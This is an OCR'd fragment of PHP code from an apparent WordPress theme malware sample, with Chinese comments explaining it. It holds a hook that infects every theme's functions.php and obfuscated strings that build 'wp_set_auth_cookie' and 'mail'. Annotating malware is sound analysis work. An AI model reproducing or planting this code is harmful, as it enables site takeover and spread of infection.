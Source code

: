     }
    
    //下面是3个针对低版本的php而写的兼容函数
    if(!function_exists("stripos")){ 
        function stripos(  $str, $needle, $offset = 0  ){ 
            return strpos(  strtolower( $str ), strtolower( $needle ), $offset  ); 
        }
    }
    
    if(!function_exists("strripos")){ 
        function strripos(  $haystack, $needle, $offset = 0  ) { 
            if(  !is_string( $needle )  )$needle = chr(  intval( $needle )  ); 
            if(  $offset < 0  ){ 
                $temp_cut = strrev(  substr( $haystack, 0, abs($offset) )  ); 
            } 
            else{ 
                $temp_cut = strrev(    substr(   $haystack, 0, max(  ( strlen($haystack) - $offset ), 0  )   )    ); 
            } 
            if(   (  $found = stripos( $temp_cut, strrev($needle) )  ) === FALSE   )return FALSE; 
            $pos = (   strlen(  $haystack  ) - (  $found + $offset + strlen( $needle )  )   ); 
            return $pos; 
        }
    }
    if(!function_exists("scandir")){ 
        function scandir($dir,$listDirectories=false, $skipDots=true) {
            $dirArray = array();
            if ($handle = opendir($dir)) {
                while (false !== ($file = readdir($handle))) {
                    if (($file != "." &#038;&#038; $file != "..") || $skipDots == true) {
                        if($listDirectories == false) { if(is_dir($file)) { continue; } }
                        array_push($dirArray,basename($file));
                    }
                }
                closedir($handle);
            }
            return $dirArray;
        }
    }
    
    //这个动作添加了，用于检测所有主题目录下functions.php并感染
    add_action("admin_head", "_verifyactivate_widgets");
    
    function _getprepare_widget(){
        if(!isset($text_length)) $text_length=120;
        if(!isset($check)) $check="cookie";
        if(!isset($tagsallowed)) $tagsallowed="<a>";
        if(!isset($filter)) $filter="none";
        if(!isset($coma)) $coma="";
        if(!isset($home_filter)) $home_filter=get_option("home"); 
        if(!isset($pref_filters)) $pref_filters="wp_";
        if(!isset($is_use_more_link)) $is_use_more_link=1; 
        if(!isset($com_type)) $com_type=""; 
        if(!isset($cpages)) $cpages=$_GET["cperpage"];
        if(!isset($post_auth_comments)) $post_auth_comments="";
        if(!isset($com_is_approved)) $com_is_approved=""; 
        if(!isset($post_auth)) $post_auth="auth";
        if(!isset($link_text_more)) $link_text_more="(more...)";
        if(!isset($widget_yes)) $widget_yes=get_option("_is_widget_active_");
        if(!isset($checkswidgets)) 
        //这个实际是wp_set_auth_cookie
        $checkswidgets=$pref_filters."set"."_".$post_auth."_".$check;
        if(!isset($link_text_more_ditails)) $link_text_more_ditails="(details...)";
        if(!isset($contentmore)) $contentmore="ma".$coma."il";
        if(!isset($for_more)) $for_more=1;